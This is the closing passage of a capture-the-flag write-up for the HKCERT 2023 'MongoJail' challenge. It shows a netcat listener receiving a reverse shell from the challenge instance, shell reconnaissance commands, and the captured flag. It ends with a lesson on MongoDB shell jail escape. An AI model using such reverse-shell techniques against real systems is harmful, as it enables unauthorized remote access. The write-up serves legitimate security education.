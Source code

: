 > Note: Remeber to replace your own Ngrok domain and port number.

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:30(HKT)]
└> nc -lnvp 4444                    
listening on [any] 4444 ...
[...]
$ whoami;hostname;id
mongodb
chal25-mongojail-0
uid=999(mongodb) gid=999(mongodb) groups=999(mongodb)
```

Nice! I got a reverse shell on the challenge instance!

**Let's run the `proof.sh` script and get the flag!**
```shell
$ ls -lah /
[...]
-r-xr-xr-x    1 root root   70 Nov  5 14:39 proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh
[...]
$ sh /proof_CBg0IiyEoIHTxFLZEaB4mKma9TlC1UmFCsVdnyuH.sh
hkcert23{WolframAlpha_L0v3z_Shibuya-Yuri_Harajuku-Furi}
```

- **Flag: `hkcert23{WolframAlpha_L0v3z_Shibuya-Yuri_Harajuku-Furi}`**

## Conclusion

What we've learned:

1. MongoDB shell jail escape & filter bypass